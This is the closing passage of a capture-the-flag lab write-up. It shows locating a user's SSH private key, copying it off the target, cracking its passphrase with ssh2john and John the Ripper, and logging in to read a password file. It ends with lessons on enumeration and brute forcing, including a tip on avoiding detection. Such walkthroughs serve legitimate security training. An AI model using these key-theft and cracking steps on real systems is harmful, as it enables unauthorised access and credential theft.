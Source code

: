 ### 🔑 SSH Key Discovery
**🎯 Key Finding:** LinPEAS discovers SSH private key under Kay's directory
```bash
# Found location
/home/kay/.ssh/id_rsa
```

### 🔓 SSH Key Cracking
```bash
# Copy the private key to attacker machine
scp jan@<TARGET_IP>:/home/kay/.ssh/id_rsa ./kay_id_rsa

# Convert for John the Ripper
ssh2john.py kay_id_rsa > kay_id_rsa.hash

# Crack the passphrase
john --wordlist=/usr/share/wordlists/rockyou.txt kay_id_rsa.hash
```

**🎉 Results:**
- **SSH Key Passphrase:** `beeswax` (example result)

### 🏆 Final Access
```bash
# Set proper permissions
chmod 600 kay_id_rsa

# Connect as Kay
ssh -i kay_id_rsa kay@<TARGET_IP>

# Find the final flag
cat /home/kay/pass.bak
```

**🏁 Final Password:** Found in `pass.bak` file

## 📚 Key Learnings

### 🔍 Enumeration Methodology
- **Always start comprehensive** - Scan all ports and services
- **Directory enumeration is crucial** - Hidden directories often contain sensitive information
- **Multiple attack vectors** - Combine web, SMB, and SSH enumeration

### 🛡️ SMB Security
- **enum4linux** is powerful for discovering users on SMB shares
- **Default configurations** often expose user information
- **Samba misconfigurations** can lead to information disclosure

### 🔐 Brute Force Techniques
- **SSH brute forcing** can be effective against weak passwords
- **Rate limiting awareness** - Use appropriate thread counts to avoid detection
- **Targeted attacks** work better than broad wordlist attacks
